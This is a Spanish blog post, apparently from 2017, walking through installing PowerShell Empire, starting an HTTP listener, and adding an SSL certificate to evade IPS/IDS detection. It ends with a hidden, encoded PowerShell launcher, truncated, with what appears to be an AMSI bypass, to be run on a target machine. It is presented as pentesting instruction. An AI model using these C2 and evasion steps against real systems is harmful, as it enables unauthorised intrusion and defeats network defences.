 ```yaml
---
layout: post
title: 'Empire F*ckery  — Pt. 01: Pentesting con Powershell y evasión de IPS'
date: '2017-08-05 13:28:26'
tags:
- powershell
- evasion
- framework
---
```


> Empire es una plataforma en Powershell de post-explotación construida con comunicaciones criptológicamente seguras y una architectura flexible
— [PowershellEmpire.com](https://www.powershellempire.com/)

Powershell es una excelente herramienta de ayuda en los sistemas windows que puede ser abusada por atacantes para cometer explotacion, post explotacion, recon e incluso BypassUAC, por ende, nace Empire.

![empire_logo_black4](/content/images/2017/08/empire_logo_black4.png)

Empire es una plataforma de post-explotación que nos asistirá a la hora de ingresar en un sistema y buscar elevar nuestra presencia ya sea en la maquina host como movimientos laterales sobre la red.

## Instalación de Empire

Afortunadamente Empire viene con un script de instalación muy práctico que hará el trabajo por nosotros. Para toda la instalación y las posteriores pruebas se usó: **Ubuntu 17.04 x64**.

Es tan simple como:
```
root@Attacker:~# git clone https://github.com/EmpireProject/Empire.git
root@Attacker:~# cd Empire/
root@Attacker:~/Empire# ./setup/install.sh
```

**Demo:**
# <script type="text/javascript" src="https://asciinema.org/a/HXBLiXYSFXUA7tNPxV4pVzsvc.js" id="asciicast-HXBLiXYSFXUA7tNPxV4pVzsvc" async></script>

Debemos poner atención a una de las últimas lineas. La linea `[*] Certificate written to ../data/empire.pem` nos dice donde guardará el certificado SSL para conexiónes seguras.

## El primer *"Listener"*

Un listener es un proceso que correrá en segundo plano, encargado de *escuchar* las conexiónes entrantes para determinar la conexión de un agente y diferenciarla de una conexión regular.

Para iniciar un listener debemos:
* Ejecutar Empire
* Ir a *listeners*
* Usar el modulo `userlistener http` el cual se encargara de escuchar con conexiones *https*
* Usualmente las opciones por defecto están bien en este caso, para verlas puedes ejecutar `info`. Para cambiar una configuración ejecutamos `set <opcion> <valor>`
* Escribimos `execute` para ejecutar el proceso

```
root@Attacker:~/Empire# ./empire
-- SNIP -- 
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > info
(Empire: listeners/http) > set Name test
```

Ahora hay algo extremadamente importante antes de ejecutar el proceso, y es **añadir el certificado SSL** ya que sino hacemos esto podríamos ser detectados por un IDS/IPS o cualquier inspector de paquetes.

Por ejemplo, Fortinet agrego en Junio 01, 2017 una firma para detectar a Empire calificandolo como un backdoor.

![Intrusion Prevention: Backdoor.Empire](/content/images/2017/08/Capture.PNG)

Si nosotros creamos un listener y nuestro agente se conecta a él, transmitirá la información en texto claro y el IPS/IDS levantará una alerta y bloqueará la conexión.

Para nosotros evadir este IPS debemos de configurar el certificado SSL que ya se creó en la instalación y añadirlo a la variable CertPath:

```
(Empire: listeners/http) > set CertPath data/
(Empire: listeners/http) > set Host https://<direccion_IP>:443
(Empire: listeners/http) > execute
[*] Starting listener 'test'
[+] Listener successfully started!
```

Y al final obtenemos nuestro codigo de inyección de powershell ejecutando `launcher powershell`:

```
(Empire: listeners/http) > launcher powershell
powershell -noP -sta -w 1 -enc
WwBSAEUARgBdAC4AQQBTAFMARQBNAGIATAB5AC4ARwBlAHQAVAB5AHAAZQAoACcAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzACcAKQB8AD8AewAkAF8AfQB8ACUAewAkAF8ALgBHAGUAdABGAGkARQBMAEQAKAAnAGEAbQBzAGkASQBuAGkAdABGAGEAaQBsAGUAZAAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAFMAZQBUAFYAQQBsAFUARQAoACQAbgB1AGwAbAAsACQAdA
--- SNIP ---
```

Esas lineas de código son las que debemos ejecutar en la máquina objectivo.

**Demo:**
# <script type="text/javascript" src="https://asciinema.org/a/5gkZHvi3baERqQJab26kTwYvX.js" id="asciicast-5gkZHvi3baERqQJab26kTwYvX" async></script>

En esta entrada cubrimos lo basico de configurar un listener y como conectar un agente a él, en la próxima entrada veremos los comandos esenciales de un agente, como hacer un launcher y ocultarlo en un archivo macro (en word por ejemplo) y otras cosas más.
